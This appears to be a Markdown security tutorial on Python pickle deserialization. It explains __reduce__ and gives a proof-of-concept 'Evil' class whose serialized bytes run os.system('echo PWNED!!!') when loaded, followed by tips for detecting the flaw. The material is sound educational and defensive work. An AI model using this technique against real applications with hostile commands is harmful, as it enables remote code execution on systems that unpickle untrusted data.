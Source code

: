 # Python Pickle Deserialization Exploitation

## Serialization in python

In python, the default library used for serialization and deserialization is [pickle](https://docs.python.org/3.6/library/pickle.html).

```pickle.dumps(python_object): => plain string representation of the object```

Here's an example code snippet to demonstrate what serialization with pickle looks like:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)

print(type(pickled_data))
print(pickled_data)
```

Running the code we get a serialized string that represents the ```user``` object.

```console
<class 'bytes'>
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x03bob\x94\x8c\x04role\x94\x8c\x05admin\x94u.'
```

This has now converted an object of type *dict* to a stream of bytes.

## Deserialization in python

When the data needs to be used, ```pickle.loads()``` is used to unpack and get the underlying object.

```pickle.loads(serialized_bytes): => original python object```

Here's an example to demonstrate deserialization with pickle:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)
unpickled_data = pickle.loads(pickled_data)

print(type(unpickled_data))
print(unpickled_data.username)
print(unpickled_data.role)
```

This code snippet serializes the user object of type *dict* to bytes and then deserializes it back to the *dict* object. The output is as follows:

```console
<class 'type'>
bob
admin
```

## Manipulating the behavior of pickling/unpickling

Pickle provides a way to execute arbitrary commands through the use of its ```__reduce__()``` method. To understand how this is possible, we must first take a look at the working of the ```__reduce__()``` method.

### __reduce__() explained

Pickle has certain restrictions as in not every object can be serialized. Objects such as file handles and others come with certain restrictions. The pickle docs give an overview of [what can be pickled and unpickled](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled).

For the special cases where an object cannot be pickled, pickle allows you to define custom behaviors of the pickling process for your class instances. Let's take an example of what happens when a file descriptor is serialized:

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

file_tester = Demo('/home/bob/test.txt')
pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor
```

As expected we get the following error:

```console
Traceback (most recent call last):
  File "test.py", line 22, in <module>
    pickle.dumps(file_tester)                   # Attempt to serialize an object containing a file descriptor
TypeError: cannot pickle '_io.BufferedWriter' object
```

This is where the ```__reduce__()``` method comes into play. We can define how we want pickle to serialize this object.

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_file = file_path
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

    def __reduce__(self):
        return(self.__class__, (self.some_file, ))     # Pass a blank object class and a tuple to pass to the class constructor

file_tester = Demo('/home/bob/test.txt')
saved_object = pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor

print("Serialized: ")
print(saved_object)
print("Deserialized: ")
print(vars(pickle.loads(saved_object)))    # Print vars of the deserialized object including the file descriptor
```

The ```__reduce__()``` method according to the python [docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) needs a tuple of at least 2 things:

1. A blank object class to call. In this case, ```self.__class__```
2. A tuple of arguments to pass to the class constructor. In this case it is a single string ```self.some_file``` which is the path to the file to open.

This time around we see that the object has been serialized. We deserialize it soon after and the output is as follows:

```console
Serialized:
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94\x8c\x07/home/bob/test.txt\x94\x85\x94R\x94.'
Deserialized:
{'some_file': '/home/bob/test.txt', 'some_random_file': <_io.BufferedWriter name='/home/bob/test.txt'>}
```

Therefore, by using ```__reduce__()``` in a class whose instances we need to pickle, we can give the pickling process a callable plus some arguments to run. The purpose of the method is for reconstructing objects however, we can utilize this for code execution.

## Exploiting pickle

Now we abuse the reduce method by inserting code in it as follows:

```python
import pickle
import os

class Evil(object):
    def __reduce__(self):
        cmd = 'echo PWNED!!!'
        return (os.system, (cmd, ))

pickle_data = pickle.dumps(Evil())
print(pickle_data)
```

The output will produce the serialized byte stream: ```b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'```.
We can pass this as input to a vulnerable application that attempts to directly deserialize this without any sanitization. This is demonstrated as follows:

```python
import pickle

evil_input = b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'
unpickled_data = pickle.loads(evil_input)
```

On deserialization, the reduce method is called and as a result, code is executed:

```console
$ python3 test.py
PWNED!!!
```

## Detecting python deserialization vulnerabilities

There are 2 main ways to detect if python serialization was done by pickle and/or is vulnerable to deserialization attacks:

1. **Blackbox**: If the traffic data contains the symbol dot . at the end, it's very likely that the data was sent in serialization. For example the byte string mentioned above
2. **Whitebox**: The uses of ```pickle/c_pickle/_pickle``` with ```load/loads``` in the code
